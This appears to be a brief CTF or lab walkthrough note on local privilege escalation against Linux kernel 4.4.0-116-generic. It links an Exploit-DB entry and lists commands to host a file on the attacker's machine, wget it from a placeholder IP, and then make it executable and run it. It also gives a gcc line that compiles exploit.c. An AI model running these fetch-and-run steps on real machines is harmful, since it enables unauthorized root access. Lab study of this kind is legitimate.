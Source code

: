 # Kernel 4.4.0-116-generic

```bash
uname -a
Linux help 4.4.0-116-generic #140 -Ubuntu SMP
help@help:/home/helps

```

{% embed url="https://www.exploit-db.com/exploits/44298" %}

```bash
python3 -m http.server 80

wget <YOUR_IP_ADDRESS>/exploit

chmod +x exploit

./exploit
```

```bash
gcc exploit.c -o exploit
```
